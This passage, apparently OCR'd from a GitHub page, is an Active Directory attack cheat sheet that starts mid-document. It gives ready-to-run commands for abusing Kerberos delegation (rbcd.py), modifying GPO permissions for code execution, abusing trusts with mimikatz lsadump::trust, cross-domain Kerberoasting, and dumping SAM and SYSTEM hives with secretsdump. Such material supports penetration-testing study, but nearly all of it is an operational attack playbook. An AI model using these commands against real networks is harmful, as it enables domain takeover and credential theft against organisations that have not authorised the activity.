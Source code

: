 #### 💣 Exploit Delegation

* **Unconstrained delegation** → steal TGT from memory.
* **Constrained delegation** → abuse `msDS-AllowedToDelegateTo`.
* **Resource-based constrained delegation (RBCD)** → control via ACL abuse.

```bash
rbcd.py -dc-ip 10.0.0.1 -t victim -f attacker
```

***

### VII. ⚙️ ACL & GPO Abuse

#### 🧩 Enumerate Privileges

```bash
Get-ObjectAcl -DistinguishedName "CN=Domain Admins,CN=Users,DC=example,DC=local"
```

#### 💣 Modify GPO for Code Execution

```bash
powershell -c "New-GPO -Name EvilPolicy"
Set-GPPermission -Name EvilPolicy -PermissionLevel GpoEditDeleteModifySecurity -TargetName 'Domain Users' -TargetType Group
```

***

### VIII. 🧠 Abusing Trust Relationships

#### ⚙️ Enumerate Trusts

```bash
nltest /domain_trusts
```

#### 💣 SID History Injection

```bash
mimikatz "lsadump::trust /patch"
```

#### 🧠 Cross-Domain Kerberoasting

```bash
GetUserSPNs.py child.local/user:pass -dc-ip 10.0.0.1 --request-user admin@parent.local
```

***

### IX. ⚙️ Credential Dumping from Workstations

#### 🧩 Registry Hive Extraction

```bash
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
secretsdump.py -sam sam.save -system system.save LOCAL
```
